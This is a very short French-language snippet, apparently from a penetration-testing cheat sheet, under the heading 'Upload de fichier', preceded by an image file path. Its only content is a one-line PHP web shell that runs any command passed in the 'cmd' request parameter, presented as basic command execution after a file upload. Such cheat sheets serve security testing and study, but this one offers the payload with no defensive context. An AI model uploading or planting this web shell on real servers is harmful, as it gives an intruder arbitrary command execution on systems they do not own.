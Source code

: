 ## Upload de fichier

Exécution de commande basique :

```php
<?php
    system($_REQUEST['cmd']);
?>
```

